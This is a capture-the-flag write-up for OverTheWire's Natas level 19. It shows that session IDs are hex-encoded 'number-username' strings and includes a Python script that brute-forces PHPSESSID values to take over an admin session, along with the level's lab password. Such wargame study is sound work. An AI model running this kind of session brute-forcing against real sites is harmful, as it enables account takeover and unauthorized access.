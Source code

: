 Mostly the same as level 18, but now the session_id is no longer sequential (not a random number between 1 and 640).

Let's try logging in with some different random accounts to find out the formular of the session_id.

![image](/assets/images/level-19-2.png)

This is a hex value: `3432322d6e6861746e616d`.
Converting to ascii: `422-nhatnam` (I have logged in with the username `nhatnam`).

→ The formular of the session_id is `X-username` with `X` is a random number (maybe) between 1 and 640.

Same approach like the previous level: brute-force the `X` number.

```python
import requests
import binascii

url = 'http://natas19.natas.labs.overthewire.org/'
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

auth = requests.auth.HTTPBasicAuth(username, password)

for i in range(100, 1000):
    cookies_hex = binascii.hexlify((str(i) + '-admin').encode()).decode()
    cookies = {'PHPSESSID': cookies_hex}
    response = requests.get(url, auth=auth, cookies=cookies)
    if 'You are an admin' in response.text:
        print(cookies_hex)
        break
```
